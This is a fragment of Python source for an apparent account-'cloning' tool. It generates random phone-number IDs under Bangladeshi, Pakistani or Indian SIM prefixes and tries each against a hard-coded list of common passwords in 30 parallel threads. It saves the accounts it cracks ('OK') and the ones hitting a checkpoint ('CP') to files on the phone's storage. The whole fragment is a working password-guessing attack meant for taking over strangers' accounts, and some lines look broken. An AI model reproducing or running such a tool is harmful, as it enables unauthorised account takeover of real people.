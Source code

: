 def pass5():
    os.system("clear")
    print(logo)
    clear()
    print(f"\033[1;97mTODAY DATE \033[1;91m: \033[1;92m{ha}/{bu}/{ta} \033[1;93m=== \033[1;97mTIME \033[1;92m 🕛  "+str(a)+":"+str(lt()[4])+" "+ tag+" ")
    print('\033[1;97m====================================================') 
    print(f"  \x1b[97m\033[37;41m[ S I M    N E T W O R K    C O D E    M E N U ]\033[0;m")
    print('\033[1;97m====================================================') 
    print(f"\t        \x1b[97m\033[37;41m[ EXAMPLE👇]\033[0;m")
    print('\033[1;97m====================================================') 
    print(f'\033[1;97m[!] \033[1;92mBD SIM CODES  \033[1;91m: \033[1;96m88017, 88019, 88018, 88016')
    print(f'\033[1;97m[!] \033[1;92mPAK SIM CODES \033[1;91m: \033[1;96m0303, 0302, 0301, 0305')
    print(f'\033[1;97m[!] \033[1;92mIND SIM CODES \033[1;91m: \033[1;96m91930, 91778, 91712 , 91902  ')
    print('\033[1;97m====================================================') 
    print(f"\x1b[97m\033[37;41m BEST CODE FOR PAK [0300 / 0302 / 0306 / 0349 /0315]\033[0;m")
    print('\033[1;97m====================================================') 
    code = input('\033[1;37m[\033[1;31m!\033[1;37m]\033[1;32m PUT SIM NETWORK CODE \033[1;37m: \033[1;36m')
    os.system("clear")
    print(logo)
    print(f"\033[1;97mTODAY DATE \033[1;91m: \033[1;92m{ha}/{bu}/{ta} \033[1;93m=== \033[1;97mTIME \033[1;92m 🕛  "+str(a)+":"+str(lt()[4])+" "+ tag+" ")
    print('\033[1;97m====================================================') 
    print(f"          \x1b[97m\033[37;41m[ I D S    L I M I T   M E N U ]\033[0;m")
    print('\033[1;97m====================================================') 
    limit = int(input('\033[1;97m[+]\033[1;92m EXAMPLE \033[1;91m: \033[1;96m2000, 3000, 50000, 100000\n\033[1;97m====================================================\n\033[1;97m[+]\033[1;92m PUT IDS LIMIT \033[1;91m: \033[1;96m'))
    for nmbr in range(limit):
        nmp = ''.join(random.choice(string.digits) for _ in range(7))
        user.append(nmp)
    with ThreadPool(max_workers=30) as manshera:    
        clear()
        tl = str(len(user))
        print(f"\033[1;97mTODAY DATE \033[1;91m: \033[1;92m{ha}/{bu}/{ta} \033[1;93m=== \033[1;97mTIME \033[1;92m 🕛  "+str(a)+":"+str(lt()[4])+" "+ tag+" ")
        print('\033[1;97m====================================================') 
        print(f"\033[1;97m[+]\033[1;92m USER D4DY-M4H1N\033[1;91m                :\033[1;96m "+D4DY-M4H1NX)
        print(f"\033[1;97m[+]\033[1;92m SIM NETWORK CODE YOU PUT\033[1;91m : \033[1;96m"+code)
        print(f"\033[1;97m[+]\033[1;92m TOTAL IDZ\033[1;91m                : \033[1;96m["+tl+"] ")
        print('\033[1;97m[+]\033[1;92m PASSWORD METHOD\033[1;91m          : \033[1;96m5') 
        print('\033[1;97m====================================================') 
        print(' \033[1;32mPLEASE WAIT YOUR CLONING PROCESS HAS BEEN STARTED')
        print('\033[1;97m====================================================') 
        for love in user:
            uid = code+love
            pwx = ['khankhan','ali786','ali123','ali1122','aliali']
            manshera.submit(freeq,uid,pwx,tl)
    print('')
    print('\033[1;97m====================================================') 
    print('\033[1;97m[+]\033[1;92m CLONING COMPLETED\n\033[1;97m[√] \033[1;92mYOUR OK IDS \033[1;91m: \033[1;96m'+str(len(ok))+'\n\033[1;97m[+]\033[1;92m TOTAL CP IDS \033[1;91m: \033[1;96m'+str(len(cp)))
    print('\033[1;97m====================================================') 
    print('\033[1;97m[+]\033[1;92m OK IDS SAVE \033[1;91m: \033[1;96m/sdcard/OK.txt\n\033[1;97m[+]\033[1;92m CP IDS SAVE \033[1;91m: \033[1;96m/sdcard/CP.txt')
    input(f'\033[1;97m[+]\033[1;92m PRESS ENTER TO BACK MENU');os.system("clear");main()
